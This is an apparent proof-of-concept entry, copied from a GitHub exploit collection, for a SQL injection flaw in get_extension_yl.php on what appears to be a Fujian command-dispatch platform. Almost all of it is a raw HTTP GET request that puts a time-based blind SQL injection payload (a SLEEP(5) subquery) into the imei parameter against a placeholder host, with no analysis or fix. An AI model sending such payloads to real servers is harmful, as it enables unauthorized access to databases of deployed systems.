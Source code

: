 # zhdd_get_extension_yl_sqli

from: https://github.com/wy876/POC/blob/main/%E7%A6%8F%E5%BB%BA%E7%A7%91%E7%AB%8B%E8%AE%AF%E9%80%9A%E4%BF%A1%E6%8C%87%E6%8C%A5%E8%B0%83%E5%BA%A6%E5%B9%B3%E5%8F%B0get_extension_yl.php%E5%AD%98%E5%9C%A8sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md
2024.3.25 @2
```
GET /api/client/get_extension_yl.php?imei=1%27%20AND%20(SELECT%207545%20FROM%20(SELECT(SLEEP(5)))Zjzw)%20AND%20%27czva%27=%27czva&timestamp=1&sign=1 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: authcode=h8g9
Upgrade-Insecure-Requests: 1
```
